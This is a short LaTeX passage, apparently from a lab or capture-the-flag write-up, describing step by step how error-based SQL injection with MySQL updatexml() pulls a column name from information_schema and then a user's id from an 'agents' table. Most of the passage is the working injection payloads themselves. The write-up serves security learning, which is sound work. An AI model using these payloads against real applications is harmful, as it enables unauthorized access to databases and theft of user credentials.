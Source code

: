 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Getting Password}
since we have the column name from
\begin{verbatim}
' OR updatexml(0,concat('~',(SELECT column_name FROM information_schema.columns 
WHERE table_name LIKE 'agents' LIMIT 0,1)),0) OR '
\end{verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=0.8\textwidth]{id.png}
\caption{Column Name Extraction}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

We can use that field to get the id of the second user 'jackOfspade' using 

\begin{verbatim}
' OR updatexml(0,concat('~',(SELECT id FROM agents where username like 'jackOfspade'),'~'),0) OR' 
\end{verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=0.8\textwidth]{8.png}
\caption{Id Number Extraction from Agent Username}
\label{fig:sql_injection}
\end{figure}
\end{document}
